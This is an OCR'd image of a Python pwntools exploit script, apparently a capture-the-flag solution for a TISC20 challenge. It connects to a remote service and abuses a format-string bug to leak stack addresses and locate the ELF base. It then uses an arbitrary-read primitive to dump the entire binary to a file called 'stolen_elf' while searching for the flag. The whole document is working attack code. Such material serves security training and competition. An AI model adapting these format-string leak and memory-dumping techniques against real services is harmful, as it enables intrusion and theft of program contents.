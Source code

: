 ```
    p = remote('fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg', 42000)

    # Index 17 points to Index 38
    # Figure out address of Index 38
    index_17_value = leak_address(p, 17)
    index_38_address = index_17_value
    log.info("Got address of index 38: 0x%x" % index_38_address)

    # Figure out index 0
    index_base = index_38_address - (38 * 8)
    log.info("RSP (index 0): 0x%x" % index_base)

    # Figure out the halfed address to index 39
    index_26_value = leak_address(p, 26)
    log.info("Got address of index 26 (index 39): 0x%x" % index_26_value)

    index_39_value = leak_address(p, 39)
    log.info("Got value of index 39: 0x%x" % index_39_value)

    # Leak address of the format string just to verify.
    index_4_value = leak_address(p, 4)
    log.info("Got address of index 4 (format string): 0x%x" % index_4_value)

    # Leak address of possible .text.
    index_7_value = leak_address(p, 7)
    log.info("Got address of index 7 (format string): 0x%x" % index_7_value)
    elf_start = index_7_value &amp; 0xffffffffffffe000
    log.info("ELF Start: 0x%x" % elf_start)

    def leak(address):
        return arbitrary_read(p, index_base, address)

    elf_header = leak(elf_start)
    log.info("ELF Start Bytes: %s" % elf_header)

    if b'\x7fELF\x02\x01\x01' != elf_header:
        log.info('Attempt failed.')
        return

    elf_contents = elf_header + b'\x00'
    offset = len(elf_contents)
    fd = open("stolen_elf", 'wb')
    fd.write(elf_contents)
    running_index = -1
    while True:
        try:
            next_content = leak(elf_start + offset) + b'\x00'
            elf_contents += next_content
            offset += len(next_content)
            #print(offset, next_content)
            fd.write(next_content)
            if b'TISC20' in next_content:
                flag = next_content.decode('utf-8')[:-1]
                log.success('Discovered flag: `{``}`'.format(flag))
            if float(len(elf_contents))/100 &gt; running_index + 1:
                log.info("Got `{``}` bytes of ELF data so far.".format(len(elf_contents)))
                running_index += 1
        except:
            log.info("Got EOF, leaked all we could.")
            break

    log.info("Obtained `{``}` bytes of ELF file.".format(len(elf_contents)))
    log.success("Flag: `{``}`.".format(flag))
```